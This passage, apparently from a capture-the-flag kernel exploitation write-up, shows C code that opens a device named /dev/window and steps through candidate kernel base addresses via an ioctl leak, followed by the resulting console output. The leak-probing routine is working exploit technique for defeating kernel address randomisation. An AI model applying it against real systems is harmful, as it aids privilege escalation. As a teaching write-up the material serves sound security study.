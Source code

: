 ```c
	fd = open("/dev/window", O_RDWR);
	if (fd < 0){
		printf("Cannot open device\n");
		return -1;
	}
	printf("[+] Device Opened\n");


	unsigned long kbase = 0xffffffff80000000; // kernel base smallest address
	bool go = true;
	while(go){
		unsigned long response;
		unsigned long leak[32] = {0};
		leak[0] = kbase;
		ioctl(fd,device_ioctl, leak);
		printf("Possible Kernel Base Address: %lx ==> Leak: %lx\n",kbase, leak[1]);
		if (leak[1] != 0){break;}
		kbase += 0x100000;
	}
	printf("Kernel Base: %lx\n",kbase);
	return 0;
}
```

Here we open the device called `/dev/window`, then from the smallest kernel base address `0xffffffff80000000`, we try to leak it by seeing if is not null. Running it we get:

    / $ ./exploit 
    [+] Device Opened
    Possible Kernel Base Address: ffffffff80000000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80100000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80200000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80300000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80400000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80500000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80600000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80700000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80800000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80900000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80a00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80b00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80c00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80d00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80e00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80f00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81000000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81100000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81200000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81300000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81400000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81500000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81600000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81700000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81800000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81900000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81a00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81b00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81c00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81d00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81e00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81f00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff82000000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff82100000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff82200000 ==> Leak: 0